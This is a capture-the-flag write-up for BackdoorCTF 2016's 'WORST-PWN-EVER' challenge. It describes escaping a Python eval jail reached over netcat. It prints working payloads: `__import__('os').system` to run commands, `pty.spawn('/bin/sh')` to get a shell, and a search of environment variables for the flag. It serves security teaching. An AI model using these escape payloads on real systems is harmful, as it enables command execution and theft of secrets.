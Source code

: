 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016  
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER  
Author: Ashish Chaudhary  
Points: 100  
Category: pwn, Python


Description
-----------

>   tocttou is an enviornmentalist. But some say he has a vicious motive
>   and he uses nature to hide his dark side. We found a weird shell on
>   his amazon (pun inteded) web services. Can you tell us what is he
>   upto?
>
>   Tip: he might shut down the machine if he notices you - and he will
>   (maybe in 45 seconds).
>
>   Access: nc hack.bckdr.in 9008


## TL;DR
We have been given an Python eval jail over a TCP socket.
The solution is to retreive an environment variable using one
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```

## Solution
After establishing a~connection to the given server a~prompt is returned.
Let's try some random fuzzing...
First let's see what happens when we press ```CTRL+D```
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a~system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a~system shell. It looks like a~Python interpreter.
Let's check this theory then:
```
> 1+1
```
No response, no error ---~it looks promising.
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old ```eval``` jail, then
we could escape using a~classic builtin hacks.
Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a~few minutes
and finding nothing useful, we noticed the task description
contains a~clue ---~the word ```environmentalist```
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
